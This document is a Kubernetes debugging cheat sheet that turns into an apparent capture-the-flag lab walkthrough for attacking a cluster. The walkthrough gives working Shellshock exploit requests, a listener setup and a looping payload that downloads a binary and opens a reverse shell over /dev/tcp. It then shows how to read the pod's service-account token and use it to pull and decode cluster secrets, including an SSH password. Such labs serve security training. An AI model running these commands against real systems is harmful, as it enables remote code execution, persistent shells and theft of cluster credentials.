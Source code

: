 This guide has been created to help engineers debug applications that are deployed into Kubernetes and not behaving correctly.

## Pod & Container Introspection

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `kubectl get pods`                                           | lists the current pods in the current namespace              |
| `kubectl get pods -w`                                        | watches pods continuously                                    |
| `kubectl describe pod <name>`                                | describe pod <name>                                          |
| `kubectl get rc`                                             | list the replication controllers                             |
| `kubectl get services` or `kubectl get svc`                  | list the services in the current namespace                   |
| `kubectl describe service <name>` or `kubectl describe svc <name>` | describe service <name>                                      |
| `kubectl delete pod <name> `                                 | delete pod <name>                                            |
| `kubectl get pods -o wide –w`                                | watch pods continuously and show  <br />info such as IP addresses & nodes provisioned on |

## Cluster Introspection

| Command                        | Description                                                  |
| :----------------------------- | :----------------------------------------------------------- |
| `kubectl version`              | get version info                                             |
| `kubectl cluster-info`         | get cluster info                                             |
| `kubectl config view`          | get cluster config                                           |
| `kubectl describe node <name>` | output info about a node                                     |
| `kubectl get nodes –w`         | watch nodes continuously                                     |
| `kubectl get nodes -o wide`    | gives a detailed view of nodes -  including internal & external IP address |

## Debugging

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `kubectl exec -ti <pod> <command>  [-c <container>]`         | execute command on pod , optionally on a<br />given container |
| `klog <pod> [-c <container>]` or<br />`kubectl logs -f <pod> [-c <container>`] | get logs of a given pod or optionally container              |
|                                                              |                                                              |
|                                                              |                                                              |

## Networking

| Command                                                      | Description                               |
| ------------------------------------------------------------ | ----------------------------------------- |
| `kubectl exec -ti <pod_name> -- /bin/sh -c  "curl -v <br /> telnet://<service_name>:<service-port>"` | testing TCP connectivity between services |
|                                                              |                                           |
|                                                              |                                           |
|                                                              |                                           |

## Other resources

<https://www.mankier.com/1/kubectl-auth-can-i> - check whether an action is allowed in your Kubernetes cluster

Use `amicontained` to find out what container runtime you're using as well as what capabilities the your container has.

```
# Export the sha256sum for verification.
$ export AMICONTAINED_SHA256="4e32545f68f25bcbcd4cce82743e916a054e1686df44fab68420fc9f94f80b21"

# Download and check the sha256sum.
$ curl -fSL "https://github.com/genuinetools/amicontained/releases/download/v0.4.7/amicontained-linux-amd64" -o "/usr/local/bin/amicontained" \
	&& echo "${AMICONTAINED_SHA256}  /usr/local/bin/amicontained" | sha256sum -c - \
	&& chmod a+x "/usr/local/bin/amicontained"

$ echo "amicontained installed!"

# Run it!
$ amicontained -h
```

Add these functions to your environment so that you can scan for open ports

``` sudo apt-get update
sudo apt-get install nmap
nmap-kube () 
{ 
nmap --open -T4 -A -v -Pn -p 443,2379,4194,6782-6784,6443,8443,8080,9099,10250,10255,10256 "${@}"
}
nmap-kube-discover () {
local LOCAL_RANGE=$(ip a | awk '/eth0$/{print $2}' | sed 's,[0-9][0-9]*/.*,*,');                                                                  
local SERVER_RANGES=" ";
SERVER_RANGES+="10.0.0.1 ";
SERVER_RANGES+="10.0.1.* ";
SERVER_RANGES+="10.*.0-1.* ";
nmap-kube ${SERVER_RANGES} "${LOCAL_RANGE}"
}
nmap-kube-discover
```

Part 1: compromise via shellshock

Useful commands for finding open ports:

```
command nmap -Pn -T4 -F --open <host-ip>
# scanning every port, more is open
command nmap -Pn -T4 --open <host-ip> -p 0-65535
command nmap -Pn -T4 --open <host-ip> -p 30081
```

1. Check shellshock

   ```
   curl http://<host_ip>:30081/cgi-bin/stats  -H 'user-agent: () { :; }; echo; echo; 2>&1 /bin/bash -c "cat /etc/passwd"'
   ```

2. create a control server to use as a reverse shell endpoint

   this requires any node with a public IP (a digital ocean server would do)

   ```
   # replace `controlplane` with a host that you can SSH to
   ssh controlplane ip a
   
   # replace 1234 with a port that is routable on the host you have SSH'd into
   while :; do ssh controlplane ncat --listen 1234 --output $(mktemp /tmp/hack-XXXX.log); done
   ```

3. shellshock in

   

   ```
    curl http://<host_ip>:30081/cgi-bin/stats  -H 'user-agent: () { :; }; echo; echo; 2>&1 /bin/bash -c "echo hello"'
   ```

   Hardcore version:

   ```
   while :; do curl http://<host_ip>:30081/cgi-bin/stats  -H 'user-agent: () { :; }; echo; echo; 2>&1 /bin/bash -c "test -f /tmp/k || wget -O /tmp/k https://storage.googleapis.com/kubernetes-release/release/v1.11.2/bin/linux/amd64/kubectl && chmod +x /tmp/k && /tmp/k version; df -h; while :; do nohup bash -i >& /dev/tcp/<host_ip>/1234 0>&1; sleep 1; done"'; done
   ```

Part 2: 

Kubectl SA: steal secret with ssh password in (flag)

### Steps

1. on the control server, or via individual shellshock commands:

   Search for secrets:

   ```
   df -h
   cat /run/secrets/kubernetes.io/serviceaccount/token; echo 
   
   /tmp/k  --token "$(cat /run/secrets/kubernetes.io/serviceaccount/token)" --server https://kubernetes.default.svc --insecure-skip-tls-verify get  nodes
   
   /tmp/k  --token "$(cat /run/secrets/kubernetes.io/serviceaccount/token)" --server https://kubernetes.default.svc --insecure-skip-tls-verify auth can-i get secrets --namespace kube-system   
   ```

2. pull secrets from the API server for this namespace (there's a service account mounted that can read kube-system)

   ```
   /tmp/k  --token "$(cat /run/secrets/kubernetes.io/serviceaccount/token)" --server https://kubernetes.default.svc --insecure-skip-tls-verify get secrets -n shellshock
   ```

3. we've found secrets, now decode them

   > first way requires manual base64 decode, second is a one-liner

   ```
    /tmp/k  --token "$(cat /run/secrets/kubernetes.io/serviceaccount/token)" --request-timeout 5s  --server https://kubernetes.default.svc --insecure-skip-tls-verify get secret my-secret -o yaml -n shellshock 
   
    /tmp/k  --token "$(cat /run/secrets/kubernetes.io/serviceaccount/token)" --server https://kubernetes.default.svc --insecure-skip-tls-verify get secret my-secret -n shellshock -o 'go-template={{index .data "ssh_password"}}' | base64 -d; echo
   ```

4. find password for ssh server in flag

5. write password in local file to win (or just tell ControlPlane!) TODO(low): write test for this

   ```
   echo 'What kind of plane is it?' > /tmp/flag
   ```